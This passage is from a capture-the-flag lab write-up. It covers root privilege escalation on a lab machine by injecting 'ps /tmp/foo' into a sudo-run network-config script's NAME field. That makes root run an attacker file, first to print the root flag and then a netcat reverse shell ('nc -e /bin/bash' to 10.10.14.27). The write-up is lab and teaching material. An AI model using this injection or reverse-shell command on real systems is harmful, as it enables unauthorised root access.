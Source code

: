 In the changename.sh output, I see that "test" was echoed.

{% highlight plaintext %}
/usr/local/sbin/changename.sh: line 18: /etc/sysconfig/network-scripts/ifcfg-guly: Permission denied
grep: /etc/sysconfig/network-scripts/ifcfg-ens33: Permission denied                                 
grep: /etc/sysconfig/network-scripts/ifcfg-ens33: Permission denied                                 
test                                                                                                
Users cannot control this device.                                                                   
{% endhighlight %}

So if I store any command as /tmp/foo, the user running changename.sh will execute it.

### Reading root.txt

If I create a /tmp/foo file that contains "cat /root/root.txt", I can sudo the changename.sh script so that root will execute my command (and show the contents of the root flag). 

I'll also have to be careful to preserve the "NAME" field (ps /tmp/foo). Unlike Guly, root can actually modify the fields, and this will likely mess up whatever is executing the foo file.

{% highlight plaintext %}
[guly@networked ~]$ echo "cat /root/root.txt" > /tmp/foo
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh                                             
interface NAME:
ps /tmp/foo
interface PROXY_METHOD:                                                                             
s                      
interface BROWSER_ONLY:
s                                                                                                   
interface BOOTPROTO:   
s
0a8e############################                                                                    
0a8e############################
ERROR     : [/etc/sysconfig/network-scripts/ifup-eth] Device guly0 does not seem to be present, delay
ing initialization.                                                                                 
{% endhighlight %}

As expected, the flag appears in the output.

### Bonus: root shell

The technique to read the flag doesn't take much modifying to get root shell. First, I set up a netcat listener.

{% highlight plaintext %}
root@kali:~# nc -nlvp 3333
listening on [any] 3333 ...
{% endhighlight %}

Then I simply replace /tmp/foo with a netcat command.

{% highlight plaintext %}
[guly@networked ~]$ echo "nc -e /bin/bash 10.10.14.27 3333" > /tmp/foo
[guly@networked ~]$ chmod 777 /tmp/foo
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh                
interface NAME:
ps /tmp/foo
interface PROXY_METHOD:
s
interface BROWSER_ONLY:
s
interface BOOTPROTO:
s
{% endhighlight %}

